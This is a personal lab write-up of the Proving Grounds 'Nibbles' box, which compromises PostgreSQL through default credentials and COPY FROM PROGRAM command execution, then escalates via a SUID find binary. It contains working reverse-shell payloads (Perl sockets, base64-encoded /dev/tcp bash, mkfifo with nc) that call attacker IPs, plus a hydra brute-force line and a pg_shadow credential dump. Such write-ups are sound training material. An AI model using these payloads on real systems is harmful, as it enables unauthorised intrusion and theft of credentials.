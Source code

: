 # Nibbles Writeup

Name: Nibbles
Date:  11/10/2023
Difficulty:  Intermediate
Goals:  
- Wipe out more of TJNULL undone   
Learnt:
- Use the ports that the box uses again and dont be an idiot
Beyond Root:
- Improved my command inject cheatsheet

- [[Nibbles-Notes.md]]
- [[Nibbles-CMD-by-CMDs.md]]

![](nightmare.jpg)
## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](OS-ProvingGrounds/Nibbles/Screenshots/ping.png)


`postgres : postgres` default password and username
![](postgrespostgres.png)

## Exploit

[0xsyr0](https://github.com/0xsyr0/OSCP#postgresql) :
```sql
psql
psql -h <LHOST> -U <USERNAME> -c "<COMMAND>;"
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>
psql -h <RHOST> -p 5432 -U <USERNAME> -d <DATABASE>

postgres=# \list                     // list all databases
postgres=# \c                        // use database
postgres=# \c <DATABASE>             // use specific database
postgres=# \s                        // command history
postgres=# \q                        // quit
<DATABASE>=# \dt                     // list tables from current schema
<DATABASE>=# \dt *.*                 // list tables from all schema
<DATABASE>=# \du                     // list users roles
<DATABASE>=# \du+                    // list users roles
<DATABASE>=# SELECT user;            // get current user
<DATABASE>=# TABLE <TABLE>;          // select table
<DATABASE>=# SELECT * FROM users;    // select everything from users table
<DATABASE>=# SHOW rds.extensions;    // list installed extensions
<DATABASE>=# SELECT usename, passwd from pg_shadow;    // read credentials
```

![](notables.png)

But we are super user..
![](superdefaultuser.png)

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce) states that *"Since [version 9.3](https://www.postgresql.org/docs/9.3/release-9-3.html) only **super users** and member of the group `**pg_execute_server_program**` can use copy for RCE.

```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

![](rcepostgres.png)

```
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.166:5432");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

`multi/postgres/postgres_copy_from_program_cmd_exec` module from metasploit. But ... similarly no shell
![](nomsfshell.png)

![](postsqlssh.png)

We can get the local.txt from reading it, but we cannot execute or read files with any characters that break postsql

No password within 8901 of rockyou.txt
```
hydra -v -V -u -l wilson -P /usr/share/wordlists/rockyou.txt -t 10 192.168.182.47 ftp
```

![](nopythonshell.png)

No `archive_mode`
![](archivemodeno.png)

Even though the user in passwd does have defined shell
![](noshell.png)

The service does not:
![](withshell.png)

https://github.com/b4keSn4ke/CVE-2019-9193

![](b64decodeintofileproof.png)

![](wecanexecinlinuxmem.png)

![](pingedmyself.png)

![](findcredsattempt1.png)
```sql
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);

COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson';
COPY cmd_exec FROM PROGRAM 'ls -la /home/wilson/ftp';
COPY cmd_exec FROM PROGRAM 'ls -la /';
COPY cmd_exec FROM PROGRAM 'ls -la /opt';

COPY cmd_exec FROM PROGRAM 'ls -la /srv';
COPY cmd_exec FROM PROGRAM 'ls -la /srv/ftp/';
COPY cmd_exec FROM PROGRAM 'ls -la /home'; -- No postgresql key
COPY cmd_exec FROM PROGRAM 'find / -type f -name page2.html 2>/dev/null';
COPY cmd_exec FROM PROGRAM 'ls -la /var/www';

COPY cmd_exec FROM PROGRAM 'ls -la /var/www/html';
COPY cmd_exec FROM PROGRAM 'ls -la /etc/apache2/sites-enabled/000-default.conf';
COPY cmd_exec FROM PROGRAM 'cat /etc/apache2/sites-enabled/000-default.conf'; -- breaks the postgresql

-- Perms!!  
-- Create a .ssh, id_rsa! 
COPY cmd_exec FROM PROGRAM 'mkdir /home/wilson/.ssh'; -- no permission to do so

COPY cmd_exec FROM PROGRAM 'echo VGVzdGluZyAxMjMK | base64 -d > /tmp/test.txt';
COPY cmd_exec FROM PROGRAM 'cat /tmp/test.txt';

COPY cmd_exec FROM PROGRAM 'which nohup';
-- /usr/bin/nohup

echo "nohup /dev/shm & "

COPY cmd_exec FROM PROGRAM 'which curl'; -- wget /usr/bin/wget

COPY cmd_exec FROM PROGRAM 'wget ';

-- Use UTF-16LE by mistake
COPY cmd_exec FROM PROGRAM 'echo LwBiAGkAbgAvAGIAYQBzAGgAIAAtAGkAIAA+ACYAIAAvAGQAZQB2AC8AdABjAHAALwAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA5ADEALwA2ADkANgA5ACAAMAA+ACYAMQAKAA==
 | base64 -d > /dev/shm/bash-i.sh';
COPY cmd_exec FROM PROGRAM 'nohup /dev/shm/bash-i.sh &';

COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.191:8443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';

-- does not work:
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzk2OTYgMD4mMQo=
 | base64 -d | /bin/bash';


COPY cmd_exec FROM PROGRAM 'find / -type f \( -name *_hist -o -name *_history \) -exec ls -l {} \; 2>/dev/null';

-- Fails
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.191 9696 >/tmp/f';
-- Fails
COPY cmd_exec FROM PROGRAM 'echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTkxLzE1MDAwIDA+JjE= | base64 -d | bash';

COPY cmd_exec FROM PROGRAM 'find . -type d -name *onf* 2>/dev/null | ls | xargs grep -rie ''passw''';


```

```
COPY files FROM PROGRAM ‘perl -MIO -e ‘’$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,”192.168.45.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;’’’;
```

```sql
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.145.191:9696");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';;																					

SELECT * FROM cmd_exec;

-- Cant chmod 
-- 000-.conf

-- exfil with base64 worked!
COPY cmd_exec FROM PROGRAM 'cat /etc/hosts |base64 ';
```
[r3d-buck3t](https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767)

## Foothold

Learn try different shells idiot. I then tried to find about PROGRAM works - https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767, which I did not release was a write up, till stroll over `/etc/passwd`. This seems so weird 

```bash
# I tried this one
COPY shell FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.191 80 >/tmp/f';

# And the only difference was no forward slash
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.119.130 4469 >/tmp/f';
```

Proof I already tried it. So I am not turning  this into a Helped-Through. I am not sure how it execute non path files 
![](nofair.png)

And it can work from the same file...
![](butTHENWORKSFROMTHESAMEFILE.png)

And then I realised its the port. My fault. Massive Idiot.
## PrivEsc

I was a bit surprised.
![](findfoundsuid.png)
```bash
./find . -exec /bin/sh -p \; -quit
```
![](aslapintheface.png)

The box mocks me with its forward slashes -  effective euid is root 
![](theboxmocksmewithitsforwardslashes.png)
